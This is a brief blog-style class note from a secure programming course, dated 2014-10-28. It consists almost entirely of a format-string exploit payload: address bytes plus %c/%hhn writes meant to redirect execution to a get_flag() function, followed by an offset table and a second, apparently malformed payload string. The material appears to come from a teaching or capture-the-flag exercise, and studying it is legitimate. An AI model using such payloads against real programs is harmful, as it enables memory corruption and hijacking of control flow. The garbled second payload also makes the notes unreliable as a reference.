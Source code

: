 ```yaml
---
layout: post
title: 'Secure Programming 2014-10-28'
category: note
slug: secure-programming-20141028
---
```

2014/10/28 Secure Programming Class Note

```
\xdc\xed\xbf\xbf\xdd\xed\xbf\xbf\xde\xed\xbf\xbf\xdf\xed\xbf\xbf%100 c%30$hhn%220c%31$hhn%55c%32$hhn%66c%33$hhn
get_flag(): 0x0804861d
29      %29c
134     %105c
4       %97c
8       %97c
%29c$hhn%105$hhnc%97c$hhn%97c$hhn
```
